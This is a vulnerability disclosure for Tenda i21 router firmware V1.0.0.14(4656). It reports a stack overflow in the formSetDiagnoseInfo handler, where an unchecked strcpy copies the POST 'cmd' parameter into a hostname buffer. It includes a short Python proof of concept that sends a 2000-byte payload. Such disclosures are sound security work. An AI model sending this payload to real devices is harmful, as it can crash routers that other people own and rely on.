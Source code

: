 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formSetDiagnoseInfo` function. The `strcmd` variable receives the `cmd` parameter from a POST request. However, since the user can control the input of `cmd`, the statement `strcpy(cfg->hostname, strcmd+ 5);` can cause a buffer overflow. The user-provided  `cmd` can exceed the capacity of the `cfg->hostname` array, triggering this security vulnerability.

![image-20240419204611232](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419204611232.png)

## POC

```python
payload = b"a"*2000

data = {"cmd": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
